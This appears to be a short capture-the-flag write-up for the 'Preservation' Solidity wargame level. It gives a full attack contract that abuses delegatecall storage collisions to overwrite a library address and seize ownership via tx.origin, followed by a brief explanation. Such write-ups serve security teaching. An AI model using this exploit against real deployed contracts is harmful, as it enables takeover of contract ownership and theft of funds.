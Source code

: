 ```javascript
pragma solidity ^0.6.0;

contract PreservationAttack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function attack (address payable addr) public {
        (bool s1, ) = addr.call(abi.encodeWithSignature("setFirstTime(uint256)", uint256(address(this))));
        require(s1, "failed to set attack address.");
        (bool s2, ) = addr.call(abi.encodeWithSignature("setFirstTime(uint256)", uint256(0)));
        require(s2, "failed to modifiy owner.");
    }

    function setTime(uint time) public {
        owner = tx.origin;
    }
 
    fallback() external payable {
    }
}
```

The vulnerability here is the delegatecall in the original contract. We can modify the `timezone1Library` address to point to this contract, so the second time it delegatecalls `setTime`, it will actually change the origin ownership to `tx.origin`.
